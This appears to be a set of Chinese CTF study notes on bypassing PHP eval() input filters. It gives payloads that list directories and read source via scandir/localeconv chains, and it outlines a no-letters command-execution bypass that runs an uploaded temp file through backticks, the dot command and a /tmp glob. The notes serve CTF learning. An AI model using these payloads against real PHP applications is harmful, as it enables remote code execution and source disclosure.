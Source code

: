 scandir() 函数返回指定目录中的文件和目录的数组。

pos() 输出数组中的当前元素的值。

localeconv() 函数返回一个包含本地数字及货币格式信息的数组，该数组的第一个元素就是"."。

scandir（）用来获取目录文件

chr（47）是/的ASCII编码，因为/被过滤了



exp=print_r(scandir(pos(localeconv())))

打印数组

exp=highlight_file(next(array_reverse(scandir(pos(localeconv())))));

# 无数字无字母无~^

源码

```php
if(preg_match("/[A-Za-oq-z0-9$]+/",$cmd)){
    die("cerror");
    }
if(preg_match("/\~|\!|\@|\#|\%|\^|\&|\*|\(|\)|\（|\）|\-|\_|\{|\}|\[|\]|\'|\"|\:|\,/",$cmd)){
    die("serror");
    }
eval($cmd);
```

只可以使用p ` ? / + < > =1

思路就是上传文件生成临时文件，将真正想要执行的函数放到临时文件中，然后利用eval函数进行执行临时文件。

## `<?= $cmd ?> 等于 <?php echo($cmd) ?>`

在php中，`<? ?>`称为短标签，`<?php ?>`称为长标签。修改PHP.ini文件配置 short_open_tag = On 才可使用短标签。php5.4.0以后， `<?= `总是可代替 `<? echo`。还要使用`?>`将前面的闭合掉

## 反引号``（键盘Tab键上面那个键）

  在php中反引号的作用是命令替换，将其中的字符串当成shell命令执行

## 点 .

​    点命令等于source命令，用来执行文件。

​    source /home/user/bash  等同于  . /home/user/bash

## 加号 +

​    URL编码中空格为%20，+表示为%2B。然而url中+也可以表示空格，要表示+号必须得用%2B。

## /??p/p?p??????
